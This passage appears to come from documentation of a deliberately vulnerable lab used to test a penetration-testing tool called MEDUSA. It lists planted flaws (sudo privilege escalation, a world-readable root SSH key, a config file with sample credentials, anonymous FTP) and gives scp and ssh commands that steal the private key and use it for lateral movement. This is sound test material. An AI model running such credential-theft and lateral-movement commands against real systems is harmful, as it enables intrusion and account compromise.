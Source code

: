 **MEDUSA Test Cases:**
- Enumerate sudo privileges (`sudo -l`)
- GTFOBins exploitation
- Privilege escalation to root

**Impact:** Root access, complete system compromise

---

#### 4.3 Exposed Private Keys
**Location:** `/root/.ssh/id_rsa` (world-readable)

**Exploitation:**
```bash
# Copy the private key
scp -P 2222 admin@localhost:/root/.ssh/id_rsa ./stolen_key
chmod 600 stolen_key

# Use it to access other systems
ssh -i stolen_key root@other-system
```

**MEDUSA Test Cases:**
- Locate and extract SSH keys
- Use keys for lateral movement
- Decrypt keys if encrypted

**Impact:** Lateral movement to other systems

---

#### 4.4 Sensitive Files
**Location:** `/opt/config/app.conf` (world-readable)

**Contents:**
```
DB_HOST=ehr-database
DB_USER=ehrapp
DB_PASS=Welcome123!
API_KEY=sk_live_51Habcdefg...
```

**MEDUSA Test Cases:**
- Find configuration files
- Extract credentials
- Use credentials for lateral movement

**Impact:** Credential disclosure, lateral movement

---

### 5. FTP Server (`file-server`)

#### 5.1 Anonymous FTP Access
**Description:** Anonymous FTP is enabled with read/write access
